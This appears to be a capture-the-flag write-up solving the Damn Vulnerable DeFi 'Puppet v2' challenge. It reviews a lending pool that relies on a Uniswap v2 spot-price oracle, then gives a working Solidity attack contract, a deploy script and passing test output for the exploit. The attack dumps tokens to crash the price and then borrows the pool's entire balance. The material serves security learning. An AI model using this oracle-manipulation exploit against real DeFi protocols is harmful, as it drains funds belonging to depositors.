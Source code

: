 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/9.png">

# Target Contract Review

Given contract.

**PuppetV2Pool.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external returns (uint256);
}

/**
 * @title PuppetV2Pool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetV2Pool {
    using SafeMath for uint256;

    address private _uniswapPair;
    address private _uniswapFactory;
    IERC20 private _token;
    IERC20 private _weth;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

    constructor(address wethAddress, address tokenAddress, address uniswapPairAddress, address uniswapFactoryAddress)
        public
    {
        _weth = IERC20(wethAddress);
        _token = IERC20(tokenAddress);
        _uniswapPair = uniswapPairAddress;
        _uniswapFactory = uniswapFactoryAddress;
    }

    /**
     * @notice Allows borrowing tokens by first depositing three times their value in WETH
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and borrowed token have same amount of decimals.
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 amount = calculateDepositOfWETHRequired(borrowAmount);

        // Take the WETH
        _weth.transferFrom(msg.sender, address(this), amount);

        // internal accounting
        deposits[msg.sender] += amount;

        require(_token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, amount, borrowAmount, block.timestamp);
    }

    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        uint256 depositFactor = 3;
        return _getOracleQuote(tokenAmount).mul(depositFactor) / (1 ether);
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
    }
}
```
The `PuppetV2Pool` contract is a smart contract that allows users to borrow tokens by **depositing three times the value in WETH (Wrapped Ether)**.

**The contract uses the Uniswap v2 protocol to calculate the required amount of WETH to be deposited based on the desired borrow amount. The contract assumes that WETH and the borrowed token have the same amount of decimals.**

`borrow()` : Allows users to borrow tokens by first depositing three times the value in WETH. The function transfers the required amount of WETH from the sender to the contract and updates the internal accounting of deposits. It then transfers the borrowed tokens from the contract to the sender.

`calculateDepositOfWETHRequired()` : Calculates the amount of WETH required to be deposited based on the desired token amount. It uses the Uniswap v2 library to fetch the reserves of WETH and the borrowed token from the Uniswap pair and calculates the quote using the reserves.

`_getOracleQuote()` : Fetches the price from Uniswap v2 using the official UniswapV2Library. It retrieves the reserves of WETH and the borrowed token from the Uniswap pair and calculates the quote for the given amount.


Challenge's message:

> The developers of the previous pool seem to have learned the lesson. And released a new version!
Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance. You know what to do.

# Subverting

```solidty
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";
import "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) external returns (bool);

    function balanceOf(address account) external returns (uint256);

    function approve(address spender, uint256 amount) external returns (bool);

    function deposit() external payable;
}

interface IPuppetV2Pool{
     function borrow(uint256 borrowAmount) external ;
}

contract AttackPuppetV2 {
    using SafeMath for uint256;

    IPuppetV2Pool  pool;
    IERC20  token;
    IERC20  weth;
    IUniswapV2Router02  uniswap;

    constructor(address _pool,address _weth,address _token,address _uniswap) public {
        pool = IPuppetV2Pool(_pool);
        weth = IERC20(_weth);
        token = IERC20(_token);
        uniswap = IUniswapV2Router02(_uniswap);
    }

    function attack() public payable {
        uint256 tokenAmount = token.balanceOf(address(this));
        token.approve(address(uniswap), tokenAmount);
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        uniswap.swapExactTokensForETH(tokenAmount,1,path,address(this),uint256(block.timestamp *2));
        weth.deposit{value: address(this).balance}();
        uint256 ethAmount = weth.balanceOf(address(this));
        weth.approve(address(pool), ethAmount);
        uint256 poolTokenAmount = token.balanceOf(address(pool));
        pool.borrow(poolTokenAmount);
        uint256 borrowTokenAmount = token.balanceOf(address(this));
        token.transfer(msg.sender, borrowTokenAmount);
    }

    receive() external payable {}
}
```

```js
const attackFoctory = await ethers.getContractFactory("AttackPuppetV2", player);
const attack = await attackFoctory.deploy(lendingPool.address,weth.address,token.address,uniswapRouter.address);
await token.connect(player).transfer(attack.address, PLAYER_INITIAL_TOKEN_BALANCE);
await attack.connect(player).attack({value: PLAYER_INITIAL_ETH_BALANCE - 1n * 10n ** 17n});
```

Solve the challenge.

```powershell

  [Challenge] Puppet v2
    ✔ Execution (88ms)


  1 passing (2s)

Done in 3.50s.
```

**_by wasny0ps_**

